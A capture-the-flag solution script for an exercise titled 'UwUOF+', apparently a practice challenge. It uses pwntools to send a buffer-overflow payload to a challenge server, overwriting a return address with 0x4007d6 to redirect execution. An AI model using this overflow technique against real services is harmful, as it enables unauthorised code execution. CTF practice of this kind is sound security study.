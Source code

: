 # Exercise 4-A UwUOF+ [100 points] (21 solves)
```python
from pwn import *
context.log_level = 'CRITICAL'
p = remote("chal.firebird.sh",35019)
payload = (b"UwU" * 3).ljust(80,b"A")+b"nothing\x00" +b"A"*8+b"A"*8+p64(0x4007d6)
p.sendline(payload)

print(p.recvall().decode())
```